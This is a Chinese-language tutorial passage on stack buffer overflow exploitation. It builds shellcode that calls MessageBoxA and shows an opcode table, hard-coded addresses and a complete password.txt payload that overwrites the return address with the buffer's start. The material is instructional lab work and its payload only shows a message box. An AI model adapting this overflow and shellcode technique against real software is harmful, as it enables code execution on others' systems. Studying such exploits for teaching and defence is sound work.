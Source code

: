 ```c

```

##### 分析(ExpStd0103)

> 目标：在程序验证时植入代码，实现弹窗MessageBox

- 必要信息
  - 数组起始地址：`0x0012FAF0`(也是ShellCode执行的起始地址)
  - MessageBoxA地址：`0x77D507EC`
  - 十六进制的文字：`4D6F656F6D75`(Moeomuoo)
- 组成的机器码

| 机器码(HEX) | 汇编码 | 注释 |
| - | - | - |
| 33DB | XOR EBX, EBX | 清空EBX，保证ShellCode中无0(截至符)
| 53 | PUSH EBX | 字符串末尾的`\0`
| 68 6D756F6F | PUSH 6F6F756D | 压入文字字节muoo(0x6D756F6F)
| 68 4D6F656F | PUSH 6F656F4D | 压入文字字节Moeo(0x4D6F656F)
| 8BC4 | MOV EAX, ESP | ESP栈顶指向字符串Moeomuoo，移交给EAX
| 53 | PUSH EBX | MB_OK
| 50 | PUSH EAX | Message
| 50 | PUSH EAX | Caption
| 53 | PUSH EBX | Handle
| B8 EC07D577 | MOV EAX, 0x77D507EC | 将MessageBoxA的地址硬编码移入EAX
| FFD0 | CALL EAX | 调用MessageBoxA

- 将机器码按照顺序写入password.txt
  - 53-56字节填入返回地址(Buffer的起始地址)，其余字节用0x90填充
- 填充运行测试发现，最后只剩下2字节的空间可用，唯一不完美的地方在于程序崩溃退出

> 以下是最终的password.txt

```c
33 DB 53 68 6D 75 6F 6F  68 4D 6F 65 6F 8B C4 53
50 50 53 B8 EC 07 D5 77  FF D0 90 90 90 90 90 90
90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90
90 90 90 90 F0 FA 12 00
```

---

## 总结

本文讨论了如何利用缓冲区溢出漏洞以及ShellCode的编写，但不足之处在于硬编码地址和栈空间移位的问题  
有关这些问题下一篇讨论
